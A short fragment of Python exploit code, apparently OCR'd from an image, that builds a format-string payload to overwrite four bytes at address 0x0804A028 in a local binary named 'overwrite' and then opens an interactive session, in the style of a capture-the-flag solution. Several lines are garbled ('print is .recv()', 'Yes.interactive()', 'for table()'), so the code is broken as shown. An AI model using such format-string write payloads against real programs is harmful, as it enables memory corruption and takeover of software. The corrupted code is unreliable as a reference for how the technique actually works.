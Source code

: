 ```python
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
print is .recv()
    Yes.interactive()

for table()
```